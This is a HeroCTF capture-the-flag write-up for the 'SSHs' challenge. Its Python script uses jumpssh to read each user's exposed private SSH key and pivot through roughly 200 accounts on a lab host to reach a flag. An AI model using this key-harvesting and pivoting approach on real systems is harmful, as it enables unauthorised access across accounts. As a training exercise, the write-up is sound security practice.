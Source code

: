 # SSHs

### Category

Prog

### Description

Every user can read the private rsa key of the next user. You just have to grab it, and ssh as the next. But... there are 250 ?!?<br>
Let's automate it ! (The last user has a *flag.txt* at the root of his home directory)

```
Host : xxxx.heroctf.fr
Port : xxxx
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

This script solves the challenge. One mistake to not make here, is to chain the SSH sessions all together. The result would be a very slow response time (I mean VERY slow).
So you'll notice every remote ssh connection is made from the gateway session (user1) that is available from the outside.
```python
from jumpssh import SSHSession
from os import remove

host = '127.0.0.1'
port = 22

#Connect to machine
print("[*] Connect to gateway ssh account\n")
gateway = SSHSession(host, "user1", port=22, password="user1")

# Keep track of sessions
active_session = gateway
for i in range(2, 201):
    # Read Key
    key = active_session.get_cmd_output("./getSSHKey") # 4096 -> key size ; 36*2 -> header+footer size

    # Write Key
    open("key.tmp", "w").write(key)

    # Get next session and save it
    active_session.close()
    active_session = gateway.get_remote_session("127.0.0.1", username=f"user{i}", private_key_file="key.tmp")

    if i%50==0:
        print(f"[*] User {i}/200")

# Remove temporary file
remove("key.tmp")

# Read and print flag
print("\n[+] Flag : ", active_session.get_cmd_output("cat flag.txt"))
active_session.close()
```

For a simple ssh connections, I recommend using pwntools, that offers a few very usefull services. But it sadly doesn't allow chaining ssh sessions (for pivoting for exemple). You'll have to use other libraries (like here jumpssh, that is a kind of wrapper for Paramiko), sockets, or setup port forwarding.

### Flag

```Hero{Th47_w3RE_4_l0t_Of_uS3rS}```